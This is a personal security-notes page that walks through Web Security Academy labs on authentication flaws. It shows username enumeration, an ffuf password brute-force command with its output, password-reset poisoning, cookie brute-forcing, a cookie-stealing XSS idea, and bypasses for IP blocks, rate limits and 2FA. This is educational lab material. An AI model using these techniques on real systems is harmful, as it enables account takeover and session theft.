+++
title = 'Authentication'
date = 2024-08-19T11:37:17-03:00
draft = false
weight = 2
+++

Authentication vulnerabilities are those that may allow an attacker to gain unauthorized access to other user’s accounts on a given application. These vulnerabilities may arise on different scenarios, as follows.

### Weak password policy

An application could simply not demand that users have a strong password. A strong password usually has many characters and includes capital letters, special characters and numbers. If the password isn’t strong, it’s more likely for an attacker being able to just guess the correct password of specific users, with or without a brute-force tool.

### Different failure responses

When a user attempts to log-in an application, it will typically verify if the user exists in the database by checking for the specified username first, and then check if the provided password is correct for that same user.

For this simple scenario, there are two cases in which the authentication would fail. Either the username that is trying to be accessed doesn’t exist, therefore there’s no need to check for the password, or the username exists, but the password is incorrect.

It’s considered best practice not to give the user different responses between those two scenarios, as that information could be used by an attacker to enumerate valid usernames in the database.

- Those differences may be more clear on straight forward error messages, such as “Username does not exist” and different HTTP status codes, or more subtle, like on almost unnoticeable different content on the web page or even different response times for each submission. For different times, an attacker can try entering an excessively long password that the website takes noticeably longer to handle.

For that last scenario, it’s important for the attacker to repeat the request that took longer to handle a couple of times, until they are sure that the longer response time isn’t due to any other reasons.

## Exploiting

### Enumerating usernames

In order to enumerate valid usernames for an application, firstly we need to try logging into an account that probably doesn’t exist. Then we can get the response for that attempt as a model for invalid usernames. On the following example, the website returns the following error message: “Invalid username or password.”

For the username “as”, this application returned the same error message, but the period was missing. That is a slight mistake that could happen on the development phase of a website, but it’s enough for an attacker to figure that the response is different because the guessed username is actually valid.



---

### Brute-forcing user’s password

By having previous knowledge of a username and a list of possible passwords, an attacker could be able to guess the correct password with brute-force scripts. In the following example, ffuf is used in order to perform the attack and get information about the responses for each password in the provided wordlist.

```bash
$ ffuf -u https://0abe006d04dc5ca680dcdab900bd0038.web-security-academy.net/login 
--data "username=as&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" 
-X POST -x http://127.0.0.1:8080 -w ~/tools/wordlists/burp/password.txt -mc all
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://0abe006d04dc5ca680dcdab900bd0038.web-security-academy.net/login
 :: Wordlist         : FUZZ: /home/zetsu/tools/wordlists/burp/password.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=as&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
________________________________________________

qazwsx                  [Status: 200, Size: 3248, Words: 1329, Lines: 66]
111111                  [Status: 200, Size: 3235, Words: 1320, Lines: 65]
123321                  [Status: 200, Size: 3251, Words: 1329, Lines: 66]
zxcvbnm                 [Status: 200, Size: 3251, Words: 1329, Lines: 66]
michael                 [Status: 200, Size: 3234, Words: 1320, Lines: 65]
123123                  [Status: 200, Size: 3235, Words: 1320, Lines: 65]
121212                  [Status: 200, Size: 3249, Words: 1329, Lines: 66]
password                [Status: 200, Size: 3232, Words: 1320, Lines: 65]
1234                    [Status: 200, Size: 3231, Words: 1320, Lines: 65]
asdfgh                  [Status: 200, Size: 3250, Words: 1329, Lines: 66]
football                [Status: 200, Size: 3249, Words: 1329, Lines: 66]
batman                  [Status: 200, Size: 3235, Words: 1320, Lines: 65]
12345                   [Status: 200, Size: 3233, Words: 1320, Lines: 65]
123qwe                  [Status: 200, Size: 3234, Words: 1320, Lines: 65]
sunshine                [Status: 200, Size: 3250, Words: 1329, Lines: 66]
andrew                  [Status: 200, Size: 3234, Words: 1320, Lines: 65]
1234567                 [Status: 200, Size: 3233, Words: 1320, Lines: 65]
tigger                  [Status: 200, Size: 3233, Words: 1320, Lines: 65]
iloveyou                [Status: 200, Size: 3251, Words: 1329, Lines: 66]
2000                    [Status: 302, Size: 0, Words: 1, Lines: 1]
charlie                 [Status: 200, Size: 3235, Words: 1320, Lines: 65]
robert                  [Status: 200, Size: 3250, Words: 1329, Lines: 66]
thomas                  [Status: 200, Size: 3233, Words: 1320, Lines: 65]
taylor                  [Status: 200, Size: 3248, Words: 1329, Lines: 66]
matrix                  [Status: 200, Size: 3232, Words: 1320, Lines: 65]
austin                  [Status: 200, Size: 3233, Words: 1320, Lines: 65]
monitoring              [Status: 200, Size: 3232, Words: 1320, Lines: 65]
montana                 [Status: 200, Size: 3231, Words: 1320, Lines: 65]
moscow                  [Status: 200, Size: 3250, Words: 1329, Lines: 66]
moon                    [Status: 200, Size: 3232, Words: 1320, Lines: 65]
:: Progress: [100/100] :: Job [1/1] :: 100 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```


Then we can see that most of the attempts returned the status code `200` and try running the command again, filtering the results by the status code, leaving us with the only attempt that returned a different one:


```bash
$ ffuf -u https://0abe006d04dc5ca680dcdab900bd0038.web-security-academy.net/login --data "username=as&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -X POST -x http://127.0.0.1:8080 -w ~/tools/wordlists/burp/password.txt -mc all -fc 200
```
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://0abe006d04dc5ca680dcdab900bd0038.web-security-academy.net/login
 :: Wordlist         : FUZZ: /home/zetsu/tools/wordlists/burp/password.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=as&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 200
________________________________________________

2000                    [Status: 302, Size: 0, Words: 1, Lines: 1]
:: Progress: [100/100] :: Job [1/1] :: 100 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

---

### Exploiting flawed logic in password reset

Some applications may include a verification step in the password reset mechanism by sending an e-mail to the user that requested the reset. That link typically includes a token in the URL that allows the user to actually perform the password reset after clicking it. However, if the application does not assign that token to a specific user, it might be possible to use the token to reset the password of other users.

By following the first steps to reset our password, we get access to this page through a link sent to our e-mail account. On this page, we are able to enter the new password and intercept the request, so we can view and edit it.





By changing the value of the `username` parameter to `carlos`, we are able to reset Carlos’s password to the one we entered. Now it’s just a matter of logging into their account.



---

### Brute-forcing a stay-logged-in cookie

Most applications with authentication mechanisms include a small checkbox, usually labeled as “Remind me” or “Keep me logged in”, which allow the user not to lose their authenticated state after restoring the browser session.

Some of them do that by assigning a cookie to the user, which it will later read and use to consider the user authenticated.

If the cookie has a low-entropy value, as the encoding value of the concatenated account credentials, an attacker could try brute-forcing the value of that cookie, managing to gain access to the user’s account without even going through the authentication process.

In the example below, we already have a victim whose username is “carlos” and a list of candidate passwords. By analyzing the stay-logged-in cookie assigned to ourselves after we clicked the checkbox during the authentication of our own account, we’ve noticed that it consists in the base64 encoding of our username, followed with a coma and a MD5 hash, that translates to our password. With that in mind, we know that we basically need to hash our list of candidate passwords, add username and a comma to the beginning of each hash, and then encode each new line to base64 in order to perform our attack.



For this case, we can use the presence of the “Update e-mail” button as an indicator that we’ve successfully logged in.



I've also written a python exploit for this lab, which you can find [here](https://github.com/zetsuHQ/flash-scripts/blob/main/python/wordlist-encoder.py).

---

### Stealing stay-logged-in cookie with XSS

XSS can also be used to stay session cookies from users. Sometimes we are able to inject an XSS payload that forwards the cookies of whoever accesses the page with injected scripts to a server under our control.

For that, we can write an HTML image tag like the following:

`/?c="+document.cookie>`

This tag is basically injecting an image on the page with “x” as it’s source. As there’s no such path called “x”, the `onerror` event will be triggered, causing the victim’s browser to look for the new image’s source in the provided URL. That URL is our web server. We are leading the victim’s browser to fetch the server with the “c” parameter having the value of `document.cookie` (the victim's cookies). Then we just need to access our server’s access log and look for the part where the cookie is located on each access. With that cookie in hand, we are able to either inject it into our browser to log-in the victim’s account or try cracking the hash to recover their actual password.

---

### Password reset poisoning via middleware

Some application generate dynamic URLs for the password reset feature. Those applications might be vulnerable to password reset poisoning via middleware.



This is the password reset link sent by e-mail when submitting the password reset form, containing either the user’s username or e-mail.

```
GET /forgot-password?temp-forgot-password-token=e7e5umk9suti5r2ddxfnybd78hnhk8pk HTTP/2
Host: 0a7700be036a44be81c243b9008400ef.web-security-academy.net
```

When clicking the link, this request is generated. It contains a token unique to the user. If we are able to modify the Host header for this request, we can set it to point to a server under our control.



On the image above, we were able to intercept the form submission and set the X-Forwarded-Host value to our own server, besides setting “carlos” as the username. This request will generate a password reset link containing Carlos’s token and send it to us if he clicks it.



After a while, we checked our server’s access log and noticed that we have gotten a request containing the token as the value of a query parameter.



Now we were able to repeat our previous request (the one that happened when we clicked the reset link in our e-mail), but change the token’s value to Carlos’s. The response is a page were we are able to set the new password for Carlos’s account, then we are able to get full access to his account and probably to remove his own access.

---

### Password brute-force via password change

Some applications that contain password reset features fail to make the reset page inaccessible to unauthenticated users. If that’s the case, there’s a chance that the application is vulnerable to username enumeration or password brute-force.

In the image below, you can see that the application locks our account in case we provide the wrong current password, but it doesn’t lock it if we enter two different new passwords. We can take advantage of that, plus the fact that the username is provided in a hidden field in the POST request, in order to brute-force a password.



We can set an attack targeting `carlos`. Here we set two different passwords on the fields and set the part of the page containing the error message (Current password is incorrect) as our indicator. If the message changes, we have successfully figured out the victim’s password.





Here we can notice that the password “mobilemail” has passed the current password check and fell into the new password check. Now we can use it to get access to the victim’s account.

---

## Common obstacles

There are many options to protect an application from brute-force attacks, but if they’re implemented with flawed logic, the application might still be susceptible to this kind of attack.

### IP Block

An application may try to mitigate brute-force attacks by implementing an IP Block mechanism, which will basically disallow the user of making further login attempts after a certain number of failed submission of credentials based on their IP. The problems with that method arise when it accepts user input as a valid source for the user’s IP, such as the HTTP X-Forwarded-For header.

#### Bypassing IP block with “X-Forwarded-For” header

The X-Forwarded-For header is used by the server in order to identify the original source of the request in case the client uses a proxy server. However, an attacker can manipulate this header in order to pretend that they are sending the request from a different IP. If the application accepts that header as a valid identifier of the user, it can be bypassed by attackers. This is a simple technique of [IP address spoofing](https://www.cloudflare.com/learning/ddos/glossary/ip-spoofing/).

In order to bypass that kind of IP block, an attacker can set a different, made-up value for the X-Forwarded-For header for each attempt, As you can see on the Payload 1 column below.



#### Bypassing IP block with valid credentials

In some cases, the application might reset the counting of failed attempts if the attacker enter valid credentials, regardless the account. This way, an attacker might be able to bypass IP block by logging into their own account after every few attempts, allowing them to continue the attack.

In case the number of wrong attempts that triggers the IP blocker is three, the attacker’s wordlists could look like this:

```
Username wordlist:
1 <username1>
2 <username2>
3 <valid-username>
4 <username3>
5 <username4>
6 <valid-username>
7 ...
```

```
Password wordlist:
1 <password1>
2 <password2>
3 <valid-password>
4 <password3>
5 <password4>
6 <valid-password>
7 ...
```

### Rate limiting

User rate limiting consists on the web application limiting the amount of requests a user can make on a specific range of time.

#### Bypassing rate limit by sending multiple credentials in the same request

On the following example, the application uses a JSON object to receive the credentials, and the attacker is able to enter an array containing their password wordlist, so the application will try all the elements in the array until one of them logs the user in successfully. This is probably due to the back-end code not performing a kind of comparison that only works with strings. I would risk saying that the fact that it accepts an array as the value of `password` is already wrong.



### Account locking

Another common method for mitigation of brute-force attacks is to lock the account for which there might be the possibility of an ongoing attack, making it inaccessible for anyone trying to log-in to it for a certain amount of time, which makes the attack harder, as the attacker would need to wait until the lock’s timer ends in order to try a different password and proceed with the hack. However, if not handed properly, that method could lead to the disclosure of the account’s existence.

#### Enumerating usernames with different response from account locking

It’s well-known that sending default and generic error messages is considered best practice when it comes to web security, and that principle is no different when it comes to account locking. If an application gives signs, such as a different error message, that it is blocking an account, that information can be used by attackers to enumerate existing accounts in the server.

On the following example, by repeating the authentication attempts five times for each username in the wordlist, the application sends a different error message for a specific user after the third guess, which in this case means that it has locked that specific user’s account in attempt to prevent a brute-force attack. That different error message is sufficient for the attacker to notice that the account exists in the database.


### 2FA (two-factor authentication)

Consists in using more then one single information (such as the password) in order to identify the an user’s authentication as valid.

#### Bypassing front-end validated 2FA

On the case below, the application attempts implementing two-factor authentication, but does using it a flawed logic. It only does the validation on the application's front-end. So, after successfully guessing the victim’s password, the attacker could simply try accessing other pages on the site and be already logged in, as the application has already set the session cookie to the attacker, considering them as authenticated.







#### Taking advantage from 2FA with flawed logic

In case the web server doesn’t verify that the user that submitted the first credentials and the one entering the 2FA code are the same, attacks might be possible.

On the example bellow, the web application doesn’t check if the user prompting for a 2FA code actually tried to log in, allowing us to generate a code without providing the user’s password, and then brute-force that code, managing to log into the victim’s account.





Now we can take our own 2FA code submission as sample to brute-force Carlos’s.



